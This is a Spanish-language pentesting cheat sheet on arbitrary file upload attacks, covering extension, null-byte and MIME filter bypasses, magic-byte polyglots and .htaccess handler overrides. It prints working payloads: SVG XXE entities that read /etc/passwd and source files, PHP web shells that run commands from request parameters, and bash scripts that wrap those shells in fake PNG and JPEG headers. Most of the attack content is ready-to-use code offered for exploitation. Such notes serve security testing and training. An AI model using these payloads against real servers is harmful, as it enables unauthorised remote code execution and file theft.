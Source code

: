 # Arbitrary File Upload

- Este tipo de ataque se basa en intentar subir archivos arbitrarios a una aplicación web.
- Generalmente se consiguen mediante features de una aplicación para subir imagenes o cualquier tipo de archivo.

## Bypassear filtros

### Whitelist filters bypass
- El servidor web solo permite solo ciertos tipos de archivos.

#### Double extensions
- Si el servidor web solo permite archivos con extensiones especificas, se puede intentar subir archivos con extensiones duplicadas.
- [wordlist de extensiones](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)
- ejemplo: shell.jpg.php

#### Reverse double extensions
- Es lo mismo que extensiones dobles, pero en este caso se puede intentar subir archivos con extensiones inversas.
- ejemplo: php.jpg
- [wordlist de extensiones dobles php](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)

### Character injection
- Se puede intentar subir archivos con caracteres especiales en su nombre.
- `%20`
- `%0a`
-`%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`
    - ejemplo: shell.php%00.jpg

#### Código para generar permutaciones de caracteres en bash
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

### MIME type filters bypass
- El servidor web solo permite ciertos tipos de archivos basados en su MIME type.
- [wordlist de content types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)
- ejemplo: shell.php con content type image/jpeg
- **GIF8 (GIF) o JFIF (JPEG)** al principio del archivo esto hace que el servidor lo interprete como una imagen.

### SVG + XXE file upload
- Se puede intentar subir un archivo SVG con un XXE payload.

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
- Podemos poner wrappers de p
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

-----

### Magic bytes attack


- Se puede intentar subir un archivo con magic bytes que hagan que el servidor lo interprete como un archivo diferente.
- [más info](https://en.wikipedia.org/wiki/List_of_file_signatures)
- [más info x2](https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5)
- esto se basa en la firma de los archivos, por ejemplo, un archivo .jpg empieza con (en hexadecimal) `FF D8 FF E0 00 10 4A 46 49 46 00 01`
- podemos hacer lo siguiente:
```
AAAA
<?php echo system($_GET["cmd"]);?>
```
- Lo guardamos como shell.phar.jpeg
- Cambiamos el mymetype utilizando hexeditor, poniendo los numeros magicos reemplazando los valores AAAA: `FF D8 FF DB`
```
- También para PNG se puede hacer lo siguiente:

```bash
#!/bin/sh
echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r > mime_shell.php.png
echo '<?php system($_REQUEST['cmd']); ?>' >> mime_shell.php.png
```

----

- Alternativa

```bash 

#!/bin/bash
# Crear el encabezado PNG (opcional si se necesita disfrazar como imagen)
echo -ne '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A' > mime_shell.php.png
# Agregar el código PHP correctamente escapado
echo '<?php system($_REQUEST["cmd"]); ?>' >> mime_shell.php.png
```

### Subir .htaccess para ejecutar php
- Se puede intentar subir un archivo .htaccess para ejecutar el archivo php.
- `SetHandler application/x-httpd-php`
- `AddType application/x-httpd-php .jpg`
- etc
- Esto sirve para ejecutar archivos php en un servidor web que no permite la ejecución de archivos php.
    - Muchas veces no está correctamente bloqueado el acceso a subir archivos .htaccess, por lo tanto podemos subir un archivo .htaccess y ejecutar el archivo php.